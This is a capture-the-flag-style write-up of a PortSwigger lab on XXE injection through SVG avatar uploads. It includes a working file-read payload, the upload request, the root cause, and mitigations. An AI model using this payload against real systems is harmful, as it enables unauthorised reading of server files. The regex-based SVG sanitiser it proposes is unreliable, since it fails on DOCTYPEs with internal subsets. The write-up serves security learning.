



# Lab 08: Exploiting XXE via Image File Upload

> **Topic**: XXE (XML External Entity) Injection
> **Lab Number**: 08
> **Platform**: PortSwigger Web Security Academy

## Category
XXE Injection — XXE via SVG Upload Processed Server-Side

## Vulnerability Summary
The blog comment feature allows users to upload an avatar image. The server accepts SVG files and processes them server-side with an XML parser that has external entity resolution enabled. By crafting a malicious SVG containing an XXE payload targeting `/etc/hostname`, uploading it as the avatar, and viewing the rendered image, the server resolves the entity and embeds the hostname value into the SVG's `<text>` element — which is then returned in the rendered image response. The hostname `029479a9ec35` was recovered from the rendered SVG.

## Attack Methodology

### Step 1: Craft the Malicious SVG
Created `xxe.svg` locally with an XXE payload embedded in a `<text>` element:

```bash
cat > xxe.svg << 'EOF'
<?xml version="1.0" standalone="yes"><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
EOF
```

Key elements:
- `standalone="yes"` — tells the parser this document is self-contained (required for inline DOCTYPE with external entities in some parsers)
- `<!ENTITY xxe SYSTEM "file:///etc/hostname">` — defines the external entity
- `&xxe;` inside `<text>` — the resolved file contents will be rendered as visible text in the SVG image



### Step 2: Upload the SVG as an Avatar
Posted a blog comment with the malicious SVG uploaded as the avatar file. The multipart request:

```
POST /post/comment HTTP/2
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryNlQdJMxCQLk1Zz3U

------WebKitFormBoundaryNlQdJMxCQLk1Zz3U
Content-Disposition: form-data; name="avatar"; filename="xxe.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="yes"><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg ...><text font-size="16" x="0" y="16">&xxe;</text></svg>
------WebKitFormBoundaryNlQdJMxCQLk1Zz3U
...
```

Response: `HTTP/2 302 Found` — comment submitted successfully.



### Step 3: Retrieve the Hostname from the Rendered SVG
Navigated to the blog post. The uploaded avatar was rendered server-side — the SVG parser resolved `&xxe;` and the hostname `029479a9ec35` appeared as text in the rendered image. Lab solved.



## Technical Root Cause

SVG is an XML-based format. When the server processes an uploaded SVG (e.g., to render it, resize it, or convert it to PNG), it parses the XML with an XML parser. If that parser has external entity resolution enabled, any `SYSTEM` entity in the SVG's DOCTYPE is resolved against the server's filesystem or network — identical to a classic XXE attack, just triggered through the file upload path rather than a direct XML API.

```python
# Vulnerable — SVG processed with entity resolution enabled
from lxml import etree

def process_avatar(svg_data):
    parser = etree.XMLParser()              # external entities enabled
    tree = etree.fromstring(svg_data, parser)
    # &xxe; already resolved to /etc/hostname contents
    # rendered output contains the file value as visible text
```

### Why SVG Is a High-Risk Upload Format

| Format | XML-based | XXE Risk |
|---|---|---|
| PNG / JPEG / GIF | No | None |
| SVG | Yes | High — full XXE if parser is misconfigured |
| DOCX / XLSX | Yes (ZIP of XML) | Medium — requires extraction |
| PDF | No | None (but other injection risks) |

SVG is the only common image format that is natively XML, making it a direct XXE vector when accepted by file upload features.

## Impact
- **Arbitrary File Read**: Any file readable by the web server process can be exfiltrated via the rendered SVG output
- **Hidden Attack Surface**: File upload endpoints are often overlooked in XXE assessments — the XML parser is invoked indirectly by image processing code, not by an obvious XML API
- **No Special Privileges Required**: Any user who can post a comment and upload an avatar can exploit this

## Proof of Concept

**`xxe.svg`**:
```xml
<?xml version="1.0" standalone="yes">
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px"
     xmlns="http://www.w3.org/2000/svg"
     xmlns:xlink="http://www.w3.org/1999/xlink"
     version="1.1">
  <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```

Upload as avatar on any blog comment. View the rendered avatar — file contents appear as text in the image.

## Key Takeaways
1. **File Upload Is an XXE Entry Point**: Any feature that accepts SVG and processes it server-side with an XML parser is vulnerable to XXE. The attack surface is not limited to explicit XML APIs.
2. **The Output Channel Is the Rendered Image**: Unlike API-based XXE where the entity value appears in a JSON/HTML response, here the exfiltrated data is rendered as visible text inside the SVG image. Viewing the avatar is sufficient to read the file.
3. **`standalone="yes"` Enables Inline DOCTYPE**: Some XML parsers require `standalone="yes"` to process inline DOCTYPE declarations with external entities. Including it maximises parser compatibility.
4. **SVG Should Be Sanitised or Converted**: The correct mitigation for SVG uploads is to either reject SVG entirely, sanitise it by stripping DOCTYPE/entity declarations, or convert it to a raster format (PNG) using a hardened renderer before storing or serving it.

## Mitigation

### 1. Disable External Entity Processing in the SVG Parser
```python
parser = etree.XMLParser(resolve_entities=False, no_network=True, load_dtd=False)
tree = etree.fromstring(svg_data, parser)
```

### 2. Sanitise SVG Uploads — Strip DOCTYPE and Entity Declarations
```python
import re
svg_data = re.sub(r'<!DOCTYPE[^>]*>', '', svg_data)
svg_data = re.sub(r'<!ENTITY[^>]*>', '', svg_data)
```

### 3. Convert SVG to Raster on Upload
Render the SVG to PNG using a hardened tool (e.g., `cairosvg`, `rsvg-convert`) with external entity processing disabled, and store only the rasterised output. Never serve the original SVG.

### 4. Allowlist Safe Image Formats
If SVG is not required, reject it at the MIME type and file extension level before any parsing occurs.

## References
- [PortSwigger XXE Lab — Exploiting XXE via image file upload](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)
- [PortSwigger XXE — Hidden attack surfaces](https://portswigger.net/web-security/xxe#finding-hidden-attack-surface-for-xxe-injection)
- [CWE-611: Improper Restriction of XML External Entity Reference](https://cwe.mitre.org/data/definitions/611.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater)
- Terminal (kitty) — SVG payload crafted with `cat`
- Chromium

---

*Lab completed on: 2026-05-15*
*Writeup by vibhxr*
